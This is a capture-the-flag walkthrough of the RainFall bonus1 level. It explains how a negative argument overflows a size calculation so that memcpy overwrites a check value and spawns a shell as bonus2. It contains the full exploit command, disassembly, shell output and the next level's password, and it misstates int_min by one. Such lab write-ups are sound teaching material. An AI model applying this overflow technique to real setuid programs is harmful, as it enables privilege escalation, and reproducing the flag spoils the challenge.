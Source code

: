 # RainFall Walkthrough — Bonus1 -> 2

## Step 1 — Initial Recon

We start as **bonus1**:

```bash
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

Running the binary:

```bash
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)

bonus1@RainFall:~$ ./bonus1 bla
bonus1@RainFall:~$
```

Observations:

* No arguments → **segmentation fault**.
* One argument → program exits silently.
* Analysis with **GDB** shows only `main()` exists.
* The binary takes **two arguments**, and there’s a `memcpy()` vulnerable to **buffer overflow**.

> For full source-level explanations, see `asm_analysis.md` alongside `source.c`.

---

## Step 2 — Understanding Argument Handling

1. **First argument** (`argv[1]`) is converted to an integer using `atoi()`.

   * Stored in `nb`.
   * Normally, `nb` must be ≤ 9 to reach the vulnerable `memcpy()`.

2. **Second argument** (`argv[2]`) is copied into a buffer located **40 bytes above `nb`**.

3. `nb` is compared to `0x574f4c46`. If equal → program calls `execl()` to escalate privileges.

4. `memcpy()` copies **4 × nb bytes** from `argv[2]` into the buffer.

   * Maximum normal copy: `9 × 4 = 36 bytes`.

---

## Step 3 — Exploiting with Negative Numbers

* Instead of a positive `nb`, we can supply a **negative integer**.
* How it works:

```text
32-bit signed int minimum: int_min = -2147483647
int_min * 4 → overflow occurs, but lower 32 bits are used
```

* We “cheat” to get **44 bytes copied**:

```text
random_int = -2147483637
random_int * 4 = 44 (mod 2^32)
```

* Now `memcpy()` will copy 44 bytes — enough to overwrite `nb` and inject the target value.

---

## Step 4 — Crafting the Payload

**First argument**: `-2147483637` → triggers `memcpy()` to copy 44 bytes.

**Second argument**:

* First 40 bytes → padding (`"A" * 40`).
* Last 4 bytes → overwrite `nb` with `0x574f4c46`.

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

---

## Step 5 — Execution and Privilege Escalation

Running the exploit:

```bash
$ whoami
bonus2

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

$ su bonus2
Password: <use retrieved password>
```

Binary protections for `bonus2`:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```

* No stack canary, NX disabled → stack/heap code execution possible.
* No PIE → fixed addresses make exploitation predictable.

---

## Step 6 — Understanding the Assembly

Dump of `main()`:

```asm
0x08048424 <+0>:  push   %ebp
0x08048425 <+1>:  mov    %esp,%ebp
0x08048427 <+3>:  and    $0xfffffff0,%esp
0x0804842a <+6>:  sub    $0x40,%esp
0x0804842d <+9>:  mov    0xc(%ebp),%eax      ; argv
0x08048430 <+12>: add    $0x4,%eax
0x08048433 <+15>: mov    (%eax),%eax        ; argv[1]
0x08048435 <+17>: mov    %eax,(%esp)
0x08048438 <+20>: call   0x8048360 <atoi@plt>
0x0804843d <+25>: mov    %eax,0x3c(%esp)   ; nb stored on stack
0x08048441 <+29>: cmpl   $0x9,0x3c(%esp)
0x08048446 <+34>: jle    0x804844f <main+43> ; only proceed if nb <= 9
0x08048448 <+36>: mov    $0x1,%eax
0x0804844d <+41>: jmp    0x80484a3 <main+127>
0x0804844f <+43>: mov    0x3c(%esp),%eax
0x08048453 <+47>: lea    0x0(,%eax,4),%ecx      ; ecx = nb * 4
0x0804845a <+54>: mov    0xc(%ebp),%eax
0x0804845d <+57>: add    $0x8,%eax
0x08048460 <+60>: mov    (%eax),%eax        ; argv[2]
0x08048462 <+62>: mov    %eax,%edx
0x08048464 <+64>: lea    0x14(%esp),%eax     ; buffer
0x08048468 <+68>: mov    %ecx,0x8(%esp)
0x0804846c <+72>: mov    %edx,0x4(%esp)
0x08048470 <+76>: mov    %eax,(%esp)
0x08048473 <+79>: call   0x8048320 <memcpy@plt>
0x08048478 <+84>: cmpl   $0x574f4c46,0x3c(%esp)
0x08048480 <+92>: jne    0x804849e <main+122>
0x08048482 <+94>: movl   $0x0,0x8(%esp)
0x0804848a <+102>: movl   $0x8048580,0x4(%esp)
0x08048492 <+110>: movl   $0x8048583,(%esp)
0x08048499 <+117>: call   0x8048350 <execl@plt>
0x0804849e <+122>: mov    $0x0,%eax
0x080484a3 <+127>: leave
0x080484a4 <+128>: ret
```

### Key Observations

* `nb` stored at `0x3c(%esp)`.
* `cmpl $0x574f4c46, 0x3c(%esp)` → check if `nb` matches magic value.
* If yes → call `execl("/bin/sh")`.
* `memcpy()` copies **4 × nb bytes** → negative `nb` allows >36 bytes to overflow safely.

---

## Step 7 — Exploit Mechanics Summary

| Step | What happens                                                                   |
| ---- | ------------------------------------------------------------------------------ |
| 1    | Supply first arg `-2147483637` → triggers `memcpy()` to copy 44 bytes.         |
| 2    | Second arg → `"A"*40 + "\x46\x4c\x4f\x57"` → overwrite `nb` with `0x574f4c46`. |
| 3    | Program checks `nb` → matches magic number → calls `execl()` → shell spawned.  |
| 4    | Gain **bonus2** privileges and retrieve `.pass`.                               |

> Learning point: Integer overflow + buffer overflow allows **arbitrary memory write**, which can bypass logical checks.

---

## Step 8 — Running the Exploit

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```